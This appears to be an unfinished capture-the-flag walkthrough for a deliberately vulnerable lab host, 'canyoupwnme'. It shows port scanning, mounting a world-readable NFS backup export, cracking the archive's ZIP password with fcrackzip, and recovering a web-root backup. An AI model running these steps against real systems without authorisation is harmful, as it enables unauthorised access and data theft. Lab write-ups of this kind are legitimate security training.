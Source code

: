 # Exploiting NFS

## Port scanning

According to `nmap` result, a NFS export should be available

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    2049/tcp  open  nfs         2-4 (RPC #100003)
    ...

## Mount the NFS export

Let's scan the available exports

    $ showmount -e canyoupwnme
    Export list for canyoupwnme:
    /backup *

Now, let's try to mount `/backup` and to get the content

    $ mkdir backup
    $ mount -o ro,noexec canyoupwnme:/backup backup
    $ ls backup
    backup.tar.bz2.zip

Get a local copy of the archive

    $ cp backup/backup.tar.bz2.zip .
    $ umount ./backup
    $ unzip backup.tar.bz2.zip
    Archive:  backup.tar.bz2.zip
    [backup.tar.bz2.zip] backup.tar.bz2 password:

Mmmm... a password protected ZIP! Let's try with `fcrackzip`...

    $ fcrackzip -u backup.tar.bz2.zip
    PASSWORD FOUND!!!!: pw == aaaaaa

## Get the ZIP content

Let's see inside the ZIP archive

    $ unzip -P aaaaaa backup.tar.bz2.zip
    Archive:  backup.tar.bz2.zip
      inflating: backup.tar.bz2
    $ tar jxf backup.tar.bz2
    $ ls
    backup.tar.bz2  backup.tar.bz2.zip  html
    $ ls html
    dvwa  gentleman  index.html  web-standards  zenphoto

It includes a directory `html` that could be a backup of `/var/www/html` in
production. Let's try if the following URLs work

*   http://canyoupwnme/dvwa (it works!!!)
*   http://canyoupwnme/gentleman
*   http://canyoupwnme/web-standards
*   http://canyoupwnme/zenphoto (it works!!!)

## DVWA

Work in progress...

## ZenPhoto

Work in progress...
